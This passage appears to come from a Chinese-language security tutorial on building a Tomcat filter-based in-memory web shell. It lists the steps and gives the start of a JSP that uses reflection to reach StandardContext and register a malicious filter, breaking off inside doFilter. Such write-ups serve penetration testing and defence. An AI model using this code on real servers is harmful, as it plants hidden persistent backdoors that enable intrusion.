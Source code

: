 实际上StandardContext也有一些方法可以帮助我们添加属性。首先我们来看filtermaps，StandardContext直接提供了对应的添加方法(Before是将filter放在首位，正是我们需要的)，这里再往filterMaps添加之前会有一个校验filtermap是否合法的操作，跟进`validateFilterMap()`:
![](https://gitee.com/guuest/images/raw/master/img/20220217112920.png)
可以看到这里有一个坑点，它会根据filterName去寻找对应的filterDef，如果没找到的话会直接抛出异常，也就是说我们还需要往filterDefs里添加filterDef。
![](https://gitee.com/guuest/images/raw/master/img/20220217112417.png)

那么我们接下来再看filterDefs，StandardContext直接提供了对应的添加方法:
![](https://gitee.com/guuest/images/raw/master/img/20220217112602.png)

最后我们再来看filterConfigs，根据命名规则搜索`addFilterConfig`，发现并没有这个方法，所以我们考虑要通过反射的方法手动获取属性并添加:
![](https://gitee.com/guuest/images/raw/master/img/20220217112715.png)
![](https://gitee.com/guuest/images/raw/master/img/20220217112750.png)

最后总结下Filter型内存马(即动态创建filter)的步骤:
1. 获取StandardContext
2. 继承并编写一个恶意filter
3. 实例化一个FilterDef类，包装filter并存放到StandardContext.filterDefs中
4. 实例化一个FilterMap类，将我们的 Filter 和 urlpattern 相对应，存放到StandardContext.filterMaps中(一般会放在首位)
5. 通过反射获取filterConfigs，实例化一个FilterConfig(ApplicationFilterConfig)类，传入StandardContext与filterDefs，存放到filterConfig中

以下是代码的具体实现:
```
<!-- tomcat 8 -->
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    String name = "Longlone";
    // 获取StandardContext
    ServletContext servletContext = request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    // 获取filterConfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null) {
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
```